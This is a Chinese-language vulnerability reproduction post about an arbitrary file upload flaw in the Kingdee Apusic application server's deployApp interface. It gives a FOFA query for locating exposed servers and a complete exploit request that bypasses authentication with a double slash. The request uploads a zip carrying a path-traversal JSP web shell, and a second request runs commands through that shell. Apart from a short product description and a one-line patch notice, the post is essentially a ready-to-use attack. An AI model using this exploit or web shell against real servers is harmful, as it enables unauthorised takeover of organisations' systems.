



# 金蝶Apusic应用服务器 任意文件上传漏洞复现

### 0x01 产品简介

   金蝶Apusic应用服务器（Apusic Application Server，AAS）是一款标准、安全、高效、集成并具丰富功能的企业级应用[服务器软件](https://so.csdn.net/so/search?q=%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%BD%AF%E4%BB%B6&spm=1001.2101.3001.7020)，全面支持JakartaEE8/9的技术规范，提供满足该规范的Web容器、EJB容器以及WebService容器等，支持Websocket1.1、Servlet4.0、HTTP2.0等最新的技术规范，为企业级应用的便捷开发、灵活部署、可靠运行、高效管控以及快速集成等提供关键支撑。

### 0x02 漏洞概述

   金蝶Apusic应用服务器 deployApp 接口存在任意文件上传漏洞，攻击者可通过双斜杠绕过鉴权并上传恶意压缩包接管服务器权限。

### 0x03 复现环境

FOFA：app="Apusic应用服务器"



### 0x04 漏洞复现

 Exp

```cobol
POST /admin//protect/application/deployApp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd9acIBdVuqKWDJbd
Accept-Encoding: gzip

------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="appName"

111
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="clientFile"; filename="evil.zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00../../../../applications/default/public_html/shell2.jsp<%\x0d\x0a    if \x28\"admin\".equals\x28request.getParameter\x28\"pwd\"\x29\x29\x29 \x7b\x0d\x0a        java.io.InputStream input = Runtime.getRuntime\x28\x29.exec\x28request.getParameter\x28\"cmd\"\x29\x29.getInputStream\x28\x29;\x0d\x0a        int len = -1;\x0d\x0a        byte[] bytes = new byte[4092];\x0d\x0a        while \x28\x28len = input.read\x28bytes\x29\x29 != -1\x29 \x7b\x0d\x0a            out.println\x28new String\x28bytes, \"GBK\"\x29\x29;\x0d\x0a        \x7d\x0d\x0a    \x7d\x0d\x0a%>PK\x01\x02\x14\x03\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00../../../../applications/default/public_html/shell2.jspPK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00e\x00\x00\x00\xb9\x01\x00\x00\x00\x00")}}
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="archivePath"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="baseContext"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="startType"

auto
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="loadon"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="virtualHost"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="allowHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="denyHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd--
```

PS：上传带命令回显的jsp木马



命令执行

```cobol
GET /shell2.jsp?pwd=admin&cmd=ifconfig HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

### 0x05 修复建议

目前厂商已发布安全补丁，请及时更新：http://www.kingdee.com/。
